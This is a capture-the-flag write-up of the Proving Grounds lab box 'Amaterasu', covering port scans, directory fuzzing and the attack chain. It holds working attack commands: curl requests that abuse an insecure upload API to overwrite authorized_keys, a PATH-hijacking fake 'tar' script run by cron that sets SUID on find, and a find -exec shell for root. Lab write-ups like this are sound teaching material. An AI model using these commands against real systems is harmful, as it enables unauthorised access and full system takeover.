

---

title: "Amaterasu"
categories: [CTF, Proving Grounds - Play]
tags: [EASY, Linux, Web, API, Insecure File Upload, Suid Misconfiguration, Crontab]
mermaid: true
image: ../assets/img/pg/offsec.jpeg

---

The exploitation of the "Amaterasu" box involved several critical steps. First, intelligence gathering was conducted through a port scan using the nmap tool, identifying open ports such as 21 (FTP), 25022 (SSH), 33414 (API), and 40080 (HTTP). Enumeration revealed an FTP server with anonymous login allowed and a Flask-based REST API on port 33414, which permitted directory listing and file uploads. Exploitation was carried out by uploading an SSH public key to the target server, enabling SSH access. During post-exploitation, a scheduled cron job running a backup script was identified, and privilege escalation was achieved using a misconfigured SUID binary (find binary). The process included techniques for exploiting web vulnerabilities, file uploads, and privilege escalation, culminating in total system access.

# Overview

```mermaid
graph TD
    A[Intelligence Gathering]
    A --> B[Port Scan > Ports 21,25022,33414,40080]
    B --> C[Enumeration: FTP, HTTP > Flask-based REST API]
    C --> D[Exploitation > Insecure File Upload, SSH Access]
    D --> E[Post-Exploitation: Privilege Escalation using Suid Misc. and Crontab]
    E --> F[Root Shell Access]

```

## 1. Information Gathering

### Port Scan

```bash
nmap -sC -sV -p- --open 192.168.197.249 -T5 -v
```

Output

```
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.248
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
25022/tcp open  ssh     OpenSSH 8.6 (protocol 2.0)
| ssh-hostkey: 
|   256 68:c6:05:e8:dc:f2:9a:2a:78:9b:ee:a1:ae:f6:38:1a (ECDSA)
|_  256 e9:89:cc:c2:17:14:f3:bc:62:21:06:4a:5e:71:80:ce (ED25519)
33414/tcp open  unknown
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 404 NOT FOUND
|     Server: Werkzeug/2.2.3 Python/3.9.13
|     Date: Tue, 02 Jul 2024 23:24:19 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 207
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   Help: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request syntax ('HELP').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|     </html>
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
40080/tcp open  http    Apache httpd 2.4.53 ((Fedora))
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-title: My test page
|_http-server-header: Apache/2.4.53 (Fedora)
```

Resume

```
21/tcp    open  ftp     vsftpd 3.0.3
25022/tcp open  ssh     OpenSSH 8.6 (protocol 2.0)
33414/tcp open  unknown Server: Werkzeug/2.2.3 Python/3.9.13
40080/tcp open  http    Apache httpd 2.4.53 ((Fedora))
```

## 2. Enumeration

### Port 21

Accepted login with an anonymous user.



### Port 40080


Fuzzing of directories and files

```bash
feroxbuster -u http://192.168.197.249:40080 -k -C 404,403,500 --wordlist=/usr/share/wordlists/dirb/big.txt -x php,asp,txt,xml,bak
```

Output

```
200      GET       41l       73w      495c http://192.168.197.249:40080/styles/style.css
200      GET      219l     1187w   100265c http://192.168.197.249:40080/images/firefox-icon.png
200      GET       25l      118w     1092c http://192.168.197.249:40080/
200      GET      116l      998w     6555c http://192.168.197.249:40080/LICENSE
301      GET        7l       20w      244c http://192.168.197.249:40080/images => http://192.168.197.249:40080/images/
301      GET        7l       20w      244c http://192.168.197.249:40080/styles => http://192.168.197.249:40080/styles/
```

### Port 33414


Directory ans Files fuzzing

```bash
feroxbuster -u http://192.168.197.249:33414 -k -C 404,403,500 --wordlist=/usr/share/wordlists/dirb/big.txt -x php,asp,txt,xml,bak
```

Output

```
200      GET        1l       19w      137c http://192.168.197.249:33414/help
200      GET        1l       14w       98c http://192.168.197.249:33414/info
```

Web server serving a REST API available at http://192.168.197.249:33414/info


Endpoint

[http://192.168.197.249:33414/help](http://192.168.197.249:33414/help)


Using /info and /help, we can list the directory and upload a file.


Burp intercept (Repeater module)


## 3. Exploitation

### Insecure File Upload

I will upload my SSH private key to /file-upload.

First, I will generate the key.

```bash
ssh-keygen -t rsa
```


```bash
cd /home/0xfl0k1/.ssh
sudo chmod 600 id_rsa #this is what I will use to log in
sudo cp id_rsa.pub id_rsa.txt #this is what I will send to the server.
```

Poc (file lista.txt)

```bash
curl -X POST -F 'file=@/tmp/lista.txt' -F filename="/home/alfredo/lista.txt" http://192.168.197.249:33414/file-upload 
```


View


Send the key to the server.

```bash
curl -i -L -X POST -H "Content-Type: multipart/form-data" -F file="@/tmp/id_rsa.txt" -F filename="/home/alfredo/.ssh/authorized_keys" http://192.168.197.249:33414/file-upload
```


Initial Access

Login with SSH private key

```bash
sudo ssh -oHostKeyAlgorithms=+ssh-dss alfredo@192.168.197.249 -p 25022 -i /home/0xfl0k1/.ssh/id_rsa
```


## 4. Post-Exploitation

There is a [backup-flask.sh](http://backup-flask.sh/) task running every minute.

```bash
cat /etc/crontab 
cat /usr/local/bin/backup-flas.sh
```


[`backup-flask.sh`](http://backup-flask.sh/)

```bash
#!/bin/sh
export PATH="/home/alfredo/restapi:$PATH"
cd /home/alfredo/restapi
tar czf /tmp/flask.tar.gz *
```

The script exports /home/alfredo/restapi to the PATH and then compresses the file contents using tar.

### Privilege Escalation

- Find (with SUID) will be used to escalate privileges.
- I will use the command /usr/bin/find and save it in a 'tar' file.

```bash
nano tar
chmod +x tar
```

`tar`

```bash
#!/bin/bash 

chmod u+s /usr/bin/find #because the where is the "find"
```

Search for SUID binaries.

```bash
find / -perm -u=s -type f 2>/dev/null
```


[find
            
            |
            
            GTFOBins](https://gtfobins.github.io/gtfobins/find/#suid)

```bash
/usr/bin/find . -exec /bin/sh -p \; -quit
```

Root Access

